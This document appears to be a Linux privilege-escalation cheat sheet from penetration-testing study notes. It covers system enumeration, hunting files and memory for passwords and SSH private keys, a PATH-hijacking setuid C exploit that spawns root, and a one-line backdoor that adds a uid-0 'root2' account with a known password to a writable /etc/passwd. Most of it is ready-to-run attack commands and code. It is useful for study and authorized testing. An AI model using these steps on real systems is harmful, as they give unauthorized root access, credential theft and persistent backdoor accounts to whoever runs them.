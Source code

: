 # Enumeration

**Manual Check**

```shell
$ cat /etc/passwd
$ hostname

$ cat /etc/issue      #OS info
$ cat /etc/*-release  #OS info
$ uname -a            #OS info

$ ps aux  						#Running Processes

$ ip a								#Network info
$ /sbin/route 				#Routing Table
$ ss -anp							#Net Services + PID

$ ls -lah /etc/cron* #Cronjobs list
$ cat /etc/crontab   #Cronjobs for root

$ dpkg -l 					 #Installed Packages

$ find / -writable -type d 2>/dev/null  #Open for all files

$ cat /etc/fstab		#Mounted drives
$ mount							#Mounted drives
$ /bin/lsblk				#show available disks

$ lsmod							     #loaded kernel
$ /sbin/modinfo libata	 #kernel info about "libata"

$ find / -perm -u=s -type f 2>/dev/null  #search for SUID

$ grep "CRON" /var/log/cron.log  #search in CRON logs
$ 
$netstat -tulpn | grep LISTEN 

```

**Automated Check**

[unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check/blob/1_x/unix-privesc-check)

```shell
./unix-privesc-check standard > output.txt
```





# Looting for passwords

```bash
Files containing passwords
#grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
#find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

#Old passwords in /etc/security/opasswd

Last edited files 10m
#find / -mmin -10 2>/dev/null | grep -Ev "^/proc"

In memory passwords
#strings /dev/mem -n10 | grep -i PASS

ssh keys
#find / -name authorized_keys 2> /dev/null
#find / -name id_rsa 2> /dev/null
```





# Setuid and Setgid

##### How to find SETUID/SETGID files

```
find / -user cry0l1t3 -perm -4000 -exec ls -ld {} \;
find / -user root -perm -6000 -exec ls -ld {} \;
```

##### How to exploit

Search for available CVEs to the returned binaries, If not try to exploit one.

If the app are executing applications as root, debug the app and exploit like below app

```c
int main(int argc, char **argv) {
	system("ssh lol@lol.it");
	return 0;
}
```

To exploit that we need to create malicious app and set it's path at first of PATH 

```
export PATH=exp_path:${PATH}
```

the exploit app

```c
int main(int argc, char **argv) {
	setuid(0);
  setgid(0);
  seteuid(0);
  setegid(0);
	system("id && whoami");
	return 0;
}
```

`setuid(0);` because privileges gets dropped to EUID when calling system()



# /etc/passwd open to write

```bash
openssl passwd evil
echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
Password: evil
root@debian:/home/student# id uid=0(root) gid=0(root) groups=0(root)
```

